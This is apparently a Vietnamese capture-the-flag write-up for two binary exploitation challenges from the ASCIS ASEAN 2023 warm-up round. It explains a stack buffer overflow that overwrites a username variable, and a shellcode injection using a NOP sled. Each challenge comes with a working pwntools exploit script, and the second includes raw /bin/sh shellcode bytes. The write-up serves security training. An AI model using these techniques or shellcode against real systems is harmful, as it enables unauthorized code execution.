 # ASCIS ASEAN 2023 WriteUp
## Đôi lời tâm sự:
Author: SeaWind (J4ckP0t)

Vì đây là vòng khởi động nên có thể năm nay các challenges về pwn có vẻ tương đối dễ thở. Cho nên hơn thua nhau ở các đội khi làm về mảng pwn là việc team nào giải ra nhanh hơn thôi :cold_sweat: 

Đối với mình thì tốc độ chưa bao giờ là lợi thế của mình, thường đối với một challenge dù dễ thì mình cũng cần mất tương đối thời gian mới có thể identify lỗi và exploit nó được. :face_with_head_bandage: 

Thôi tám chuyện vậy là đủ rồi, vào phần writeup thôi.
## Pwn1:
- Đề bài: [Challenge_link](https://warmup.ascis.vn/files/1e51e32a1d3b2caa96a46fc749772922/pwn?token=eyJ1c2VyX2lkIjozNjQ0LCJ0ZWFtX2lkIjo2NDMsImZpbGVfaWQiOjU4fQ.ZSGJRQ.FD4hStkqb5sR42vgzIG0yuOQoH8)
- Solution:

Đầu tiên ta sẽ tiến hành kiểm tra các mitigations của file challenge này.

![](https://hackmd.io/_uploads/r1hFsb1Wp.png)

Ở đây thì có mitigation của stack và PIE mitigation đã tắt (điều này sẽ có lợi cho lỗi bufferoverflow nên trong chương trình có tồn tại lỗi đó)

Tiếp đến ta sẽ check đến luồng thực thi và cấu trúc chương trình thông qua IDA Pro.

![](https://hackmd.io/_uploads/SkUmnZyWT.png)

Chương trình sẽ có 3 chức năng chính:

**1. Login():** (option=1) Hàm này sẽ tiến hành kiểm tra ta đã login chưa thông qua giá trị của biến old_user và old_passwd (Hàm này dường như không có ích gì trong việc khai thác lỗ hổng của ta)

![](https://hackmd.io/_uploads/rkY23Wkbp.png)

**2. Signup():** (option=2) Hàm này sẽ tiến hành đọc từ input của ta về username và passwd (trừ username = admin) và lưu giá trị vào trong biến old_user và old_passwd (Đây là hàm mà chúng ta sẽ tiến hành khai thác lỗ hỗng ở đây)

![](https://hackmd.io/_uploads/H1APpZk-p.png)

**3. getflag():** (option=4) Hàm này chính là hàm mà chúng ta hướng đến, hàm này sẽ kiểm tra giá trị của biến old_user có = với "admin" không. Nếu có thì sẽ leak ra flag cho chúng ta.

![](https://hackmd.io/_uploads/SJ_fCZ1ba.png)

Ở trong hàm Signup này thì ta thấy ngay được lỗ hổng buffer overflow ở ngay hàm `scanf('%s')` khi hàm này sẽ cho ta phép nhập input ở đến khi gặp dấu `'\n'` hoặc dấu `' '` (dấu xuống hàng và dấu khoảng trắng) ở trong input của cà username và passwd.

![](https://hackmd.io/_uploads/By5I1G1ZT.png)


![](https://hackmd.io/_uploads/SyVdkGyb6.png)

Ban đấu ý tưởng của mình là sử dụng lỗi buffer overflow này để tiến hành ghi đè địa chỉ của RIP ở điều hướng chương trình này sang hẳn hàm open flag trong hàm getflag luôn. Nhưng mà khổ nỗi là địa chỉ của hàm getflag ấy có chứa mã hex của `'\n'` nên căn bản là không thể ghi đè đầy đủ địa chỉ được đó.

Và mình đã rất chật vật để làm sao để có thể ghi đè địa chỉ RIP của hàm là địa chỉ của hàm getflag theo ý mình muốn nhưng mã không được.

Cho đến khi mình được gợi ý rằng là đối lúc chúng ta cần phải chơi đúng luật chơi một chút :V 

Căn bản là chúng ta vẫn sẽ khai thác lỗi buffer overflow nhưng chúng ta sẽ tiến hành ghi đè giá trị của biến `old_user` sẽ là "admin" thông qua việc kết hợp buffer overflow của input nhập passwd + hàm strncpy.

Tại sao mình lại có thể ghi đè được giá trị của biến `old_user` ư? Nếu ta để ý kỹ thì input của việc nhập username cũng như passwd của ta được lưu vào 2 biến local của hàm.

![](https://hackmd.io/_uploads/ryQ7fMJWp.png)

Trong đó ta thấy biến `src` (chứa input của nhập passwd) nằm trước biến `s1` (chứa input của nhập username) của ta cho nên nếu ta lặp đầy biến `src` 64 bytes + chuỗi string `admin` thì ta sẽ ghi đè giá trị trong biến local `s1`

Sau đó hàm strncpy sẽ lưu giá trị của biến `s1` vào trong biến `old_user` và `src` vào trong biến `old_passwd`



![](https://hackmd.io/_uploads/ryfMXGJba.png)

Giờ thì ta đã thành công truyền được string `admin` vào trong biến `old_user` rồi. Gọi hàm **getflag()** và in ra flag thôi.

- Answer: Đây là script giải bài của mình:
```python!=
from pwn import *
context.binary = "./pwn"
#p = process("139.180.137.100", 1337)
p = process()
p.sendline(b'2')
print(p.recv())
p.sendline(b'a')
print(p.recv())
p.sendline(cyclic(64)+b'admin')
print(p.recv())
#p.sendline(b'1')
#print(p.recv())
#p.sendline(cyclic(72)+p64(0x0000000000400aac))
p.sendline(b'4')
p.interactive()
```
## Pwn2:
- Đề bài: [Challenge_link](https://warmup.ascis.vn/files/c6ec92ba170edf460b4eec3f8dd9cf3e/pwn2?token=eyJ1c2VyX2lkIjozNjQ0LCJ0ZWFtX2lkIjo2NDMsImZpbGVfaWQiOjU5fQ.ZSGJ9A.JajO4Fjeg9uI0hpD9nYzv9FmzDE)
- Soluton:

Đầu tiên ta sẽ tiến hành kiểm tra các mitigations của challenge này.

![](https://hackmd.io/_uploads/B1Awimg-T.png)

Oh wow! Tất cả các mitigations đều không được bật. Một mảnh đất đầy màu mỡ cho việc khai thác lỗ hổng :relaxed: 

Tiếp đến thì ta sẽ tiến hành xem mã giả và luồng thực thi chương trình thông qua IDA Pro.

![](https://hackmd.io/_uploads/HyHXnXlWT.png)

Phân tích luồng thực thi của chương trình thì ta thấy ngay rõ ràng ở hàm getflag có lỗ hỗng shellcode execution (do ta thấy mitigation của challenge này đã disable NX và có RWX segments) 

Tức là việc ở input thứ 2 (cụ thể là ở hàm `read(0,s,0x64)`) thì ta có thể inject shellcode để có thể chiếm được shell của chương trình

Đến đây thì ta cần biết chút ít về lập trình assembly (cụ thể là kiến trúc x86-64) ở để có thể viết được shellcode chiếm shell


Thì ở solution của mình, vì lúc đó trong thời gian thi (áp lực các kiểu) và một phần là do mình lười :V , cho nên mình sẽ sử dụng shellcode có sẵn trên mạng (nguồn mình sẽ để ở đây [link](https://shell-storm.org/shellcode/files/shellcode-603.html)) 

Vì shellcode này chỉ có 30 bytes length trong khi trong hàm main sẽ kiểm tra xem length của shellcode mà mình nhập vào có lớn hơn 39 (0x27) hay không. Cho nên để lấp đầy phần còn thiếu trong shellcode thì mình sẽ sử dụng lệnh nop (hay còn gọi là kỹ thuật nop sled với chức năng là không làm gì cả :V, nó sẽ tiến hành thực thi lệnh nop để trượt dài cho đến shellcode của mình). 





- Answer: Đây là script để giải ra bài này của mình:
```python!=
from pwn import *
context.binary = "./pwn2"
p = process()
#p = remote("139.180.137.100", 1338)
#p = gdb.debug("./pwn2")
p.send(cyclic(0x32))
p.recv()
payload = b'\x90'*60
payload += b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'
p.send(payload)
p.interactive()
```
